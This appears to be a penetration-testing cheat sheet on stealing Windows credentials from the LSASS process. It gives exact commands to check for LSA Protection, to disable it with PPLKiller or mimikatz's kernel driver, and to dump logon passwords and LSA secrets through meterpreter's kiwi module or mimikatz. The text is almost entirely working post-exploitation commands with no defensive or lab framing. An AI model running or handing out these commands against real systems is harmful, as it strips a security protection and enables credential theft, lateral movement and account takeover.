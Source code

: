 ### Check if PPL is enabled
CMD: `reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL` - `0x1` means enabled.

### Disable PPL using PPLKiller

- Make sure the session you are running with has SYSTEM privleges.
- We need to upload the driver to the path: `C:\Windows\System32\config\systemprofile\AppData\Local\Temp` - The Temp directory might no exist, just create it - `mkdir Temp`.
- Then we will disable PPL: `.\PPLKiller.exe /disablePPL <LSASS PID>`
- Now we can use meterpreter mimikatz module to dump the lsass process: `load kiwi` - `creds_all` - `lsa_dump_secrets`.

### Disable PPL using mimikatz
- Transfer both `mimikatz.exe` and `mimidrv.sys` to the same directory, e.g `C:\Windows\Tasks`.
- Dump logonpasswords: `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "sekurlsa::logonpasswords" "exit"`
- Dump secrets: `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "lsadump::secrets" "exit"`
- Restore: `.\mimikatz.exe "!processprotect /process:lsass.exe" "!-" "exit"`
